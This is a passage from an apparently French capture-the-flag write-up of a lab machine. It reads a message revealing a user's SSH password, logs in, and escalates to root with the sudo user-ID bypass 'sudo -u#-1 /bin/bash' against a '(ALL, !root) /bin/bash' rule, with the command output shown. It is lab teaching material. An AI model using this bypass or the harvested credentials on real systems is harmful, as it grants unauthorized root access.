 > cat message.txt

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Nous voilà avec le mot de passe de l'agent J, nous avons maintenant accès a 2 utilisateurs.

Tentons de nous connecter en ssh avec ses comptes.

> ssh james@10.10.9.25
>
> cat user_flag.txt 
>

```
james@agent-sudo:~$ cat user_flag.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```



##### <u>**8. PRIVESC:**</u>

2 options pour attenteindre le root sont possible.



​	<u>I. BASH</u>

En faisant la commande *sudo -l*  on peut voir que l'utilisateur est autorisé à utiliser la 		commande /bin/bash, mais pas en tant que root.

```
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

En faisant quelques recherches sur cette autorisation on peut trouver un expoit permetant 	d'élever ses privilèges jusqu'au root.

> ​	sudo -u#-1 /bin/bash
>

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```
